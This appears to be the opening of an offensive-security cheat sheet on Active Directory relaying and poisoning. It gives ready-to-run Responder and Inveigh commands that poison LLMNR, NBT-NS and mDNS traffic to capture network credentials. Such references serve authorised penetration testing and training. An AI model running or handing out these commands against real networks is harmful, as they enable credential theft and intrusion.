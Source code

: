 # Relaying & Poisoning
* [Poisoning](#Poisoning)
  * [LLMNR & NBT-NS](#LLMNR-&-NBT-NS)
    * [Responder](#Responder)
    * [Inveigh](#Inveigh)
  * [Active Directory-Integrated DNS (ADIDNS)](#Active-Directory-Integrated-DNS)
  * [IPv6](#Mitm6)
  * [Files](#Files)
* [Coercing](#Coercing)
* [Relaying](#Relaying)
  * [SMB relaying](#SMB-relaying)
  * [LDAP(S) Relaying](#LDAP-Relaying)

- Credits to an amazing post: https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/

## Poisoning
- Poisoning is possible with Responder or Inveigh or manually, which will try to poison Link Local Multicast Name Resolution (LLMNR) and NetBIOS Name Resolution (NBT-NS).

## LLMNR & NBT-NS
### Responder
#### Analyse mode
- It is possible to check if LLMNR and NBT-NS is used without poisoning any request.
```
sudo responder -I eth0 -A
```

#### Poison Requests
- Poison Local Multicast Name Resolution (LLMNR) and NetBIOS Name Resolution (NBT-NS) requests.
```
sudo responder -I eth0
```

### Inveigh
- https://github.com/Kevin-Robertson/Inveigh
- Can poison LLMNR and NBTNS, but also ADIDNS
- Use `-ConsoleOutput Y` to enable ConsoleOutput

#### Analyse mode
```
Invoke-Inveigh -Inspect
```

#### Run inveigh
```
Invoke-Inveigh -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```
